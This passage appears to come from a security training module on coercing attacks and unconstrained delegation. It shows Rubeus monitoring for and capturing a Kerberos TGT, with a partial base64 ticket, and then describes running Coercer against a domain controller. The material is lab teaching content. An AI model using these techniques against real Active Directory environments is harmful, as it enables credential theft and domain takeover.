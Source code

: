   Coercing Attacks & Unconstrained Delegation

```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe monitor /interval:1

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: TGT Monitoring
[*] Monitoring every 1 seconds for new TGTs


[*] 18/12/2022 22.37.09 UTC - Found new TGT:

  User                  :  bob@EAGLE.LOCAL
  StartTime             :  18/12/2022 23.30.09
  EndTime               :  19/12/2022 09.30.09
  RenewTill             :  25/12/2022 23.30.09
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

doIE2jCCBNagAwIBBaEDAgEWooID5zCCA+NhggPfMIID26ADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqADAgECoRcwFRsGa3JidGd0
GwtFQUdMRS5MT0NBTKOCA6EwggOdoAMCARKhAwIBAqKCA48EggOLxoWz+JE4JEP9VvNlDvGKzqQ1BjjpjjO03haKFPPeszM4Phkb    QQBPfixBqQ3bthdsizmx3hdjNzFVKnUOK2h2CDFPeUia+0rCn1FllimXQwdEFMri7whC2qA4/vy52Y2jJdmkR7ZIRAeU5Yfm373L
iEHgnX4PCA94Ck/BEwUY0bk6VAWkM2FSPgnuiCeQQ4yJMPa3DK6MHYJ/1kZy+VqxwSqov/tVhATshel1vXpr4rz03ofgNtwLDYb+    K5AGYSbSct5w1jTWtGAicCCr1vpcUguIWH0Nh1lQ+tZccVtEtsrjZ/jwCKsadQWIFwhPOnVpf5drUlav1iCXmxWqQr5glW/IOOE1
lHsBolieGSyY20ZHBYjXflCGkO13mRwqO3rQ5KMs8HrC3Aqu7Popaw29at0vzZLinYnWnHUn01hh5e3QyIkqIH3CBvaPbl3RukZ7    jZRBm6BVF7R5KEWp+6Gg2joP6WvXDBCIzqL3jmxQ8NVoeeidgnBuZKpYL45E8jJjxbW4t9D8EdlX9Xu+fj/Fazw08HtRkzwG30vE
	<SNIP>
	<SNIP>
	<SNIP>
	
[*] Ticket cache size: 4
```

![Rubeus Monitor TGTs](https://academy.hackthebox.com/storage/modules/176/A11/RubeusMonitor.png)

Next, we need to know the IP address of WS001, which we can be obtain by running `ipconfig`. Once known, we will switch to the Kali machine to execute `Coercer` towards DC1, while we force it to connect to WS001 if coercing is successful:

  Coercing Attacks & Unconstrained Delegation
